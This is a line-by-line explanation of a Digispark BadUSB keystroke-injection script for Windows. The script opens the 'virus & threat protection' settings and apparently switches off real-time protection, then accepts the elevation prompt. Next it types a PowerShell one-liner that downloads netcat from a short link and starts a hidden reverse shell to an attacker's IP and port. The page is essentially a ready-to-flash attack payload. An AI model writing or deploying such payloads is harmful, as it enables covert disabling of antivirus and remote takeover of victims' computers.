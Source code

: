<h2> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text Here is a breakdown of each line of code:</i></div></h2>

<code color="#00979C">"#include "DigiKeyboard.h"</code>
<em><div><code>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</code></em></div>

<code color="#00979C">void setup(){</code>
<em><div><code>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<em><div><code>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>
<em><div><code>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<em><div><code>Another delay of 1000 milliseconds is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.print("virus & threat protection");</code>
<em><div><code>The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(500);</code>
<em><div><code>A delay of 500 milliseconds (0.5 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<em><div><code>The sendKeyStroke() function simulates pressing the Enter key.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(5000);</code>
<em><div><code>A delay of 5000 milliseconds (5 seconds) is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(43);</code>
<em><div><code>The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<em><div><code>Another Enter key press is simulated.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(700);</code>
<em><div><code>A delay of 700 milliseconds (0.7 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<em><div><code>Yet another Enter key press is simulated.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(700);</code>
<em><div><code>Another delay of 700 milliseconds is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>
<em><div><code>The sendKeyStroke() function simulates pressing the Space key.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(2000);</code>
<em><div><code>A delay of 2000 milliseconds (2 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>
<em><div><code>The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<em><div><code>A delay of 1000 milliseconds (1 second) is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>
<em><div><code>The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(500);</code> <em><div><code>A delay of 500 milliseconds (0.5 seconds) is added.</code></em></div>

<code color="#00979C"><code>DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code> <em><div><code>The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(700);</code> <em><div><code>A delay of 700 milliseconds (0.7 seconds) is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code <em><div><code>The print() function is used to simulate typing the provided string, which contains a PowerShell command.</code></em></div>
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<em><div>The sendKeyStroke() function is used to simulate pressing the Enter key.</code></em></div> 
<code color="#00979C">void loop(){}</code> <div><code>This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions.</code></div>

